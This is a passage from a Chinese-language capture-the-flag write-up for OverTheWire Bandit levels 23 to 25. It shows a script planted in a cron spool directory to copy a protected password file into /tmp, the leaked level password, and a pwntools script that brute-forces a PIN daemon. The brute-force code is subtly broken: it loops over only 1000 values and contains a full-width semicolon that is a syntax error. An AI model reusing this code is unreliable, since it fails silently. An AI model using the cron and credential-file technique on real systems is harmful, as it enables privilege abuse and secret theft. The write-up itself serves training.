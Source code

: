 `/var/spool/cron/` 这个目录下存放的是每个用户包括root的`crontab`任务，每个任务以创建者的名字命名，比如`tom`建的`crontab`任务对应的文件就是`/var/spool/cron/tom`。一般一个用户最多只有一个`crontab`文件。

我们在`/var/spool/bandit24`目录下就可以运行bandit24的定时任务

创建一个放在改目录下的脚本就可以执行了

`vim getpass.sh`进入`vim`编辑模式输入脚本

写入

```cmd
cat /etc/bandit_pass/bandit24 > /tmp/bandit24pass
：wq保存退出

bandit23@bandit:/var/spool/bandit24$ vim getpass
bandit23@bandit:/var/spool/bandit24$ chmod 777 getpass

bandit23@bandit:/var/spool/bandit24$
```

这时候在`/var/spool/bandit24`目录下不一定能看见你写的脚本，就像前面的定时任务脚本里面写的，执行完脚本这个就任务就删除了，所以没看到也不要奇怪。
这个时候说明我们的脚本已经执行了，可以去`/tmp`目录查看我们的密码了

```cmd
bandit23@bandit:/var/spool/bandit24$ cat /tmp/bandit24pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

下一关的密钥已经写好了

# Level 24 → Level 25

**Level Goal**

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

根据python的`pwntools`写个脚本跑密码就好了，注意，在其他目录下我们是没有写权限的，这个脚本只能在`/tmp`目录下创建。如果用的是我下面这种r`receive line`方法，有些破坏输出的结果我要多接收一行过滤掉，

`vim /tmp/conn.py`

创建脚本如下：

```python
#！ /usr/bin/python
from pwn import *

conn = remote('localhost', '30002')
badline = conn.recvline()
for i in range(1000):
    tmp = str(i).zfill(4)
    print '[+] Trying pincode: ' + str(tmp)
    conn.sendline('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ' + tmp)
    response = conn.recvline()
    print response
    if "Wrong" not in response；
       print "Got Pincode: " + str(tmp)
       response = conn.recvline()
       print response
       exit(0)
```

